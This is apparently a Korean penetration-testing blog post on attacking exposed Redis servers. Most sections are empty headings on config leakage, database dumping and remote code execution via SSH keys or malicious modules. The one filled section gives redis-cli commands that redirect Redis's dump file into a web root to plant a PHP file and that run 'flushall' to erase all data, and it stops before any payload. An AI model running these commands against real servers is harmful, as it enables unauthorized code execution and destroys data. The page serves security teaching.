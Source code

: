 ```yaml
---
title: Redis 를 대상으로 해킹하기 | Penteratoin testing
categories: [macos, tips]
tags: [WriteUsingLLaMA]
date: 2023-8-29 15:50:0 +0900
---
```

# 1. Redis 란?

# 2. 취약한 Redis 서비스 확인하기

# 3. Redis 서버 공격하기
## 3-1. Leakage Config informations
## 3-2. Dump Database
## 3-3. Remote Code Execution 
### A) `.ssh/authorized_keys` 업로드
### B) 악의적인 `*.so` 모듈 업로드 및 로드
### C) 기타 다양한 파일 업로드
- Redis의 권한이 대상 서버에서 어떤 권한인지에 따라 `php webshell`, `crontab` 등 다양한 파일을 업로드할 수 있다.
- 이러한 공격들은 원론적으로 대상 서버에 파일을 업로드할 수 있기 때문인데, 그 방법은 아래와 같다. (위 ssh나 *.so 공격 방법도 같은 원리)
    - 테스트를 위해 redis에 저장된 데이터를 백업해두자.
        ```bash
        redis-cli -h $HOST -p $PORT 'save'
        ```
    - redis config에서 `dir`과 `dbfilename`를 수정 (이 값들이 파일 업로드할 경로와 파일명이 된다.)
        ```bash
        redis-cli -h $HOST -p $PORT 'config set dir /var/www/html' # dir 경로 변경
        redis-cli -h $HOST -p $PORT 'config set dbfilename phpinfo.php' # 파일명 변경
        ```
    - 악성 파일을 작성하기 위해 redis의 key-value를 모두 초기화한다.
        ```bash
        redis-cli -h $HOST -p $PORT 'flushall'
        ```